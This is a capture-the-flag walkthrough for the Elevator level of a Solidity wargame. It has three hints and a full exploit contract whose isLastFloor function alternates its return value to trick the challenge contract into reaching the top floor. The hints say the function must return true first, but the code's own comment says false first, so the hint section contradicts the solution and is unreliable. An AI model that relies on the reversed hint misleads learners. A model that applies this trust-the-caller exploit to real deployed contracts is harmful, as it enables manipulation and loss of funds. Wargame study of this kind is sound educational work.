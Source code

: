 # 11 - Elevator

### Hints

<details>

<summary>Hint one</summary>

You will need to write your own contract that can be used to call the challenge contract’s `goTo` function that also implements the `Building` interface, i.e. contains an `isLastFloor` function that returns a boolean.

</details>

<details>

<summary>Hint Two</summary>

When your proxy contract calls `goTo` on the challenge contract, that contract will in turn call your proxy contract’s `isLastFloor` function **twice** (the first time to pass the if conditional, the second time to set the value of its `top` state variable). The first time this `isLastFloor` function is called, it must return “true”, and the second time it is called it must return “false”. How might you implement a function that returns a different boolean value each time it is called?

</details>

<details>

<summary>Hint Three</summary>

Your proxy contract’s `isLastFloor` function can utilise one of your contract’s own state variables to determine whether to respond with “true” or “false”. The function may return the value of this state variable and also flip it from “true” to “false” so it will return a different value the next time it is called.

</details>

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IElevator {
    function goTo(uint _floor) external;
}

contract ElevatorExploit {
    IElevator private _elevatorContract;
    bool private _isLastFloor = false;

    /**
     * Constructor sets `Elevator` contract.
     */
    constructor(address elevatorContractAddress) {
        _elevatorContract = IElevator(elevatorContractAddress);
    }

    /**
     * Will be called by `Elevator` contract to confirm `floor` is last floor.
     *
     * Note that this returns 'false' first as the conditional in the contract
     * is: if (! building.isLastFloor(_floor)) { ... }. It then returns 'true'
     * on its second call, when the `top` variable is assigned.
     */
    function isLastFloor(uint floor) external returns (bool) {
        bool _isLastFloorValueToReturn = _isLastFloor;

        _isLastFloor = !_isLastFloor;

        return _isLastFloorValueToReturn;
    }

    /**
     * Calls `Elevator` contract's `goTo` with `floor`.
     */
    function goTo(uint floor) external {
        _elevatorContract.goTo(floor);
    }
}
```
